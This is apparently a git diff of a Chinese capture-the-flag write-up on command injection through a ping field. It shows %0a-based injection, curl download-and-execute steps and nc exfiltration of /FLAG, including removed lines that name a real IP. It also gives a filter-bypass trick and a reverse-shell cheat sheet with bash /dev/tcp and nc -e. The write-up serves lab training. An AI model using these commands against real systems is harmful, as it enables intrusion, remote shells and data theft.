

update exec

diff --git a/N1BOOK/[第二章 web进阶]死亡ping命令.md b/N1BOOK/[第二章 web进阶]死亡ping命令.md
@@ -14,16 +14,18 @@ n1book{6fa82809179d7f19c67259aa285a7729}
 ![](./images/cmd-2.png)  
 ![](./images/cmd-3.png)
 3. 这里还有一个问题，虽然ip ping成功，但后面的命令不一定执行了。接着用`sleep 5`进行延时注入，发现`&&`命令并不能让后面的sleep命令执行，接着测试`%0a`连接符，可以让后面的sleep命令执行
-4. 开始猜测flag的位置，`flag`、`flag.php`、`flag.txt`等，直接在burpsuite中修改数据内容为`127.0.0.1 %0a cat /FLAG`  
-![](./images/cmd-4.png)
-4. 由于没有回显，如何将文件数据传出来是个问题，考虑`curl`将数据传出来，由于本人没有服务器，没有实测以下载荷  
-```
-第一步：ping 127.0.0.1 %0a curl 47.111.236.9/1.sh > /tmp/1.sh
-第二步：ping 127.0.0.1 %0a chmod 777 /tmp/1.sh
-第二步：ping 127.0.0.1 %0a sh /tmp/1.sh
-1.sh内容：cat /FLAG | nc 47.111.236.9 9090
-```
-
+4. 开始猜测flag的位置，`flag`、`flag.php`、`flag.txt`等，没有找到明显的flag文件。由于没有命令执行的回显，如何找到flag文件并且将文件数据传出来是个问题，考虑`{flag file} | nc {your_server_ip port}`将数据传出来，但`|`和`:`符号被判定为恶意字符。  
+**如果没有服务器，可以用buuctf开小号，在basic/Linux labs上启动一个内网服务器**  
+5. `>`没有被过滤，可以从服务器下载恶意脚本到本地并执行。这里使用`curl {your_server_ip}/ctf.sh`，然后准备给sh文件加执行权限，却无法添加，最后怀疑当前用户在当前目录没有保存文件的权限。  
+![](./images/cmd-4.png)  
+![](./images/cmd-5.png)
+6. 于是将`ctf.sh`保存到`tmp`目录下。添加可执行权限。  
+![](./images/cmd-6.png)  
+![](./images/cmd-7.png)
+7. 这里其实传了两次.sh文件，第一次的文件内容为`ls  | nc {your_server_ip port}`，得到当前目录下的文件列表，发现存在`/FLAG`文件，第二次的文件内容为`cat /FLAG | nc {your_server_ip port}`，将`/FLAG`文件内容传出来。  
+8. 在服务器上监听本地端口`nc -lvp 8888`，这里我的是8888。然后执行`ctf.sh`，得到回传的数据。  
+![](./images/cmd-8.png)  
+![](./images/cmd-9.png)
 
 ## 总结
 命令执行主要是通过特殊字符让本不该执行的命令执行。常用的特殊字符有
@@ -40,3 +42,8 @@ n1book{6fa82809179d7f19c67259aa285a7729}
 2. 黑名单绕过  
 - 字符串拼接，`a=c;b=at;c=he;d=llo;$a$b ${c}${d}`为cat hello
 - 字符串截取，substr
+3. `nc、curl`命令的使用，`>、|`重定向符的使用
+4. 常用反弹shell
+- 攻击者服务器监听8888端口，nc -lvp 8888
+- 受害者1 `bash -i >& /dev/tcp/{server_ip}/8888 0>&1`
+- 受害者2 `nc -e /bin/sh {server_ip} 8888`
